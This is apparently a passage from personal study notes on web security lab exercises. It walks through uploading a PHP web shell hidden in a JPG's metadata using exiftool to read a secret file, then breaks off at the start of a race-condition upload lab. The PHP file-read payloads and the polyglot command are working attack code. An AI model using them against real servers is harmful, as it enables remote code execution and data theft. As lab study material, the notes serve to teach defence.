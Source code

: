 Analysis:
	![[Pasted image 20241024020239.png]]

![[Pasted image 20241024020810.png]]
![[Pasted image 20241024020906.png]]
![[Pasted image 20241024021121.png]]

# **6. Remote code execution via polyglot web shell upload**
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.


1. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
    `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
    
    This adds your PHP payload to the image's `Comment` field, then saves the image with a `.php` extension.
4. In the browser, upload the polyglot image as your avatar, then go back to your account page.
5. In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the `END` string, you should see Carlos's secret, for example:
    `START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`

Analysis:
	![[Pasted image 20241024022945.png]]
	![[Pasted image 20241024022957.png]]
	![[Pasted image 20241024023023.png]]
![[Pasted image 20241024023230.png]]
![[Pasted image 20241024023521.png]]

# **7. Web shell upload via race condition**
This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

